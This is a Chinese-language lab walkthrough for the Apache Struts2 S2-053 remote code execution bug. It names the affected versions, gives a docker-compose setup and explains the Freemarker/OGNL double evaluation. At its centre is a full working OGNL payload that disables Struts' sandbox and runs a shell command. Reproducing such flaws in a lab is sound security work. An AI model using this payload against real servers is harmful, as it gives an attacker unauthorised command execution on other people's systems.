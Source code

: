 影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

漏洞详情:

- http://struts.apache.org/docs/s2-053.html
- https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e



## 测试环境搭建

```plain
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令：

```plain
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```



![img](assets/1670312813846-8c3ce48f-d3d4-458b-b178-1969104340f3.png)
